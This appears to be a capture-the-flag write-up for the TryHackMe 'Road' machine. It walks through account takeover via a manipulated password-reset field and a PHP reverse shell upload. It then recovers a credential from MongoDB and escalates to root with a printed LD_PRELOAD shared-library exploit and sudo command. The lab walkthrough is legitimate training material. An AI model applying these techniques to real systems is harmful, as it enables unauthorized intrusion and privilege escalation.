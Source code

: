 ```yaml
---
title: "[TryHackMe] Road"
author: Tri Nguyen
date: 2021-11-30 17:00:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, tryhackme, road, thm]
---
```


# Enumeration

## nmap

- Port 80 and 22 open

## gobuster

- No stand out dirs.

## OWASP ZAP

- Path traversal detected but I think this is false positive.

## Manual enumeration:

- Created an account: sky@thm.com | password

- If you go to your edit profile, scroll down, you will see a line, under uploading profile image saying

    > `Right now, only admin has access to this feature. Please drop an email to admin@sky.thm in case of any changes.`
    > We found the admin account's username + this maybe where we upload a reverse shell.

- Reset Password doesn't seem to check anything. I will use Burp to intercept this request and change the pw for the admin account

    > Actually I decided to edit the disabled form field on the website, replacing my account's username with the admin's username. This is easier and faster!

- Password change successfully!

- I uploaded the pentestmonkey's `php_reverse_shell.php` but I didn't know where to activate the php.

    > Clicking on the avatar wasn't working
    > Try /assets/img but our php wasn't there - might be extension checking?

- I viewed the edit profile page's source, there is a hidden url called `/v2/profileimages` which disable dir listing.

    > But we know the file's name!
    > Tried `http://10.10.86.228/v2/profileimages/php-reverse-shell.php`

- PWNED!

# Reverse Shell

- There is an account called "webdeveloper". 

- You can file the user.txt in the home directory.

- I tried enum around using the "www-data" but nothing was working.

- No .ssh folder we can use.

- `cat /etc/passwd` you will see 2 accounts: `mysql` and `mongo`

    > Try running `mysql` not working
    > However `mongo` works

- I used the commands on mongo's shell documentation.

```
show databases;
use backup; # only this one worked
show collections; # will show user as a collection
db.user.find()
```

- This will list all the backup users:

```
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

# SSH

```shell
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility

```

- Notice `env_keep+=LD_PRELOAD` is set.

- Comiple a c file with this content

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

- Then run

```shell
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
sudo LD_PRELOAD=exploit.so /usr/bin/sky_backup_utility
```

